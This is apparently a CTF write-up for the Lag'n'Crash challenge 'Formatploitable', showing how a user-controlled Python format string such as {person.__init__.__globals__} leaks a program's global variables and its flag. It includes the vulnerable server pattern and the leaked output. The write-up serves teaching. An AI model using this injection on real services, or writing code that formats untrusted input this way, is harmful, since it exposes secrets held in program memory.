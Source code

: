```yaml
---
title: "Lag'n'Crash CTF: Formatploitable"
date: "2021-03-14T08:13:21Z"
description: "Write-up for Lag'n'Crash CTF challenge, formatploitable"
---
```

# Challenge Overview
[_Skip to solution_](#Solution)
> Our intel says that the flag is a global variable in this python program, yet we cannot retrieve it through normal means.
>
> nc challenge1.lagncrash.com 13028

Connecting to the server we are presented with four options.
```
Welcome to Rafale 1.0!
1) Create profile
2) View badge
3) Patch Notes
4) Exit
```

**Create profile**:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
Hi, I'm Dave
```

**View badge**:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : Hi, I'm Dave
╚════════════════════════════════════════════════
```

**Patch Notes**:
```
(picked option 3)
Update 1.0.94795585:
The choice to format your profile has been added!

Example profile: Hi! Im {}, nice to meet you!

Further implementations coming soon!
```

# Solution
This challenge attempts to demonstrate the unsafe nature of Python's `.format()`.
Behind the scenes, the profile is displayed by a script similar to:
```python
class Person:
    def __init__(self, name, profile):
        self.name = name
        self.profile = profile


# Note that s is a socket
# When creating a profile:
name_format = s.recv(1024)
profile_format = s.recv(1024)
person = Person(name_format, profile_format)

# When displaying the profile
name = name_format.format(person=person)
s.sendall(name)
profile = profile_format.format(person=person)
s.sendall(profile)
```

We are expected to guess that the data is formatted using the `person` keyword
argument. Then, using the `Person` object, we access the global variables using
`__globals__`:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{person.__init__.__globals__}
```
Then, view our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7b70094d00>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'Formatploitable.py', '__cached__': None, 'CONFIG': {'FLAG': '{sTr1ng_f0rm4tT1nG_xpl0it3d}'}, 'Person': <class '__main__.Person'>, 'cont': True, 'choice': '2', 'person': <__main__.Person object at 0x7f7b6ffaccd0>}
╚════════════════════════════════════════════════
```

So we can see the flag is `LNC{sTr1ng_f0rm4tT1nG_xpl0it3d}`.

# Explanation and other possibilities
## 1. Keyword arguments vs positional arguments
Personally, I had a lot of trouble finding the word that was used because I did
not expect to guess the keyword argument used.

The vulnerability demonstrated here can also be shown through positional
arguments:
```python
# When displaying the profile
name = name_format.format(person)
s.sendall(name)
profile = profile_format.format(person)
s.sendall(profile)
```
Then, the payload will need to be adjusted to:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{0.__init__.__globals__}
```

## 2. `__globals__` is only accessible by user-defined functions and imported functions
It should be noted that if the given code used is:
```python
# When displaying the profile
name = name_format.format(person.name)
s.sendall(name)
profile = profile_format.format(person.profile)
s.sendall(profile)
```

It is not possible to access the global variables. This is because `__globals__`
is a special attribute given to all [user-defined functions](https://docs.python.org/3/reference/datamodel.html#index-34)
and all [imported functions](https://docs.python.org/3/reference/datamodel.html#index-42).

For example, we have already seen a user-defined function (technically _method_)
in the `Person` object. The same problem will arise for functions:
```python
def hello():
    pass

print(hello.__globals__)
```

Likewise, for imported functions:
```python
import base64
print(base64.b64encode.__globals__)
```
Imported functions will display the `__globals__` for their module.
